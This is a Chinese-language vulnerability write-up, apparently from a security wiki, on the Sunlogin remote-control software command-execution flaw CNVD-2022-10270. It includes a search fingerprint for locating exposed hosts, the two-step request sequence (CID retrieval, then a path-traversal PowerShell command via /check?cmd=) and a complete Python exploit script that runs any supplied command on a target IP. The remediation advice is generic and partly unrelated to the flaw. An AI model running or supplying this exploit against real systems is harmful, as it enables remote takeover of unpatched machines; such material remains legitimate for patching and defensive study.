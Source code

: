 # 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## 网络测绘

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![image-20220524135408561](/images/202205241354598.png)

发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```

![image-20220524135428094](/images/202205241354132.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![](/images/202205241354108.png)

## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```


